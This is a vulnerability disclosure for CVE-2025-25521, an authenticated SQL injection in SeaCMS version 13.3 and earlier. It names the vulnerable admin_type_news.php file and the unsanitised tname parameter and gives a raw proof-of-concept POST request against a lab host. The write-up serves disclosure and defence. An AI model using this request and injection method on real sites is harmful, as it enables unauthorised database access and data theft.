 # CVE-2025-25521

## 来源

[https://github.com/Colorado-all/cve](https://github.com/Colorado-all/cve)

## 简介

海洋CMS的/seacms/51fek7/admin_type_news.php接口存在SQL注入漏洞，攻击者可以通过该漏洞执行任意SQL语句，从而获取数据库敏感信息。

## 漏洞类型

SQL注入

## 影响范围

-   海洋CMS <=13.3

## 详情

Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112543982](../images/image-20250114112543982.png)



The vulnerability is located in the admin_type_news.php file, starting from line 99 of the code, first check that the value of the '$action' variable is equal to 'edit', and then check who has no options in the $e_id variable, and then continue to go down into the loop. Inside the loop, the values of various form fields associated with the current ID are retrieved from the POST request, and if they are not empty, an SQL update statement is constructed and executed to update the new field values to the corresponding record in the database's 'sea_type' table. In line 129, you can see that there is a concatenation of SQL statements, and the parameters are requestable, there is no restriction, you can construct 'to close the tname parameter, causing SQL injection problems.



![image-20250114135735721](../images/image-20250114135735721.png)



```http
POST /seacms/51fek7/admin_type_news.php?action=edit HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/51fek7/admin_type_news.php
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1058

e_id%5B%5D=17&tname17=%E5%9B%BD%E5%86%85&tenname17=guonei&templist17=newspage.html&templist_117=news.html&keyword17=&description17=&torder17=17&tname18=%E5%9B%BD%E9%99%85&tenname18=guoji&templist18=newspage.html&templist_118=news.html&keyword18=&description18=&torder18=18&tname19=%E7%A4%BE%E4%BC%9A&tenname19=shehui&templist19=newspage.html&templist_119=news.html&keyword19=&description19=&torder19=19&tname20=%E5%86%9B%E4%BA%8B&tenname20=junshi&templist20=newspage.html&templist_120=news.html&keyword20=&description20=&torder20=20&tname21=%E5%A8%B1%E4%B9%90&tenname21=yule&templist21=newspage.html&templist_121=news.html&keyword21=&description21=&torder21=21&tname22=%E5%85%AB%E5%8D%A6&tenname22=bagua&templist22=newspage.html&templist_122=news.html&keyword22=&description22=&torder22=22&tname23=%E7%A7%91%E6%8A%80&tenname23=keji&templist23=newspage.html&templist_123=news.html&keyword23=&description23=&torder23=23&tname24=%E8%B4%A2%E7%BB%8F&tenname24=caijing&templist24=newspage.html&templist_124=news.html&keyword24=&description24=&torder24=24&upid_to=0
```







![image-20250114110220512](../images/image-20250114110220512.png)

















